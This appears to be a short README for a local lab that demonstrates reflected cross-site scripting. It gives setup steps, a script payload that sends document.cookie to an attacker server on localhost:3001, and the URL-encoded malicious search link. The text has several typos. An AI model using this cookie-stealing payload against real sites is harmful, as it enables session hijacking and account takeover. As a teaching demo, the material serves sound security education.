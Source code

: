   First of all, try to install node_modules: npm install
  Then run attacker and server: node attacker.js, node server.js
  Paste payload in server input field: 
  <script>
    const cookies = encodeURIComponent(document.cookie);
    new Image().src = `http://localhost:3001/steal?cookie=${cookies}`;
  </script>

   You will see link to website like:
   http://localhost:3000/search?query=%3Cscript%3Enew%20Image().src%3D%22http%3A%2F%2Flocalhost%3A3001%2Fsteal%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E
   Open true link at incognito mode to get coockie, then open malicious link in this incognito mode rowser, then go to console of atckker and look at stolen coockies.

  You also can use:
  docker-compose up --build
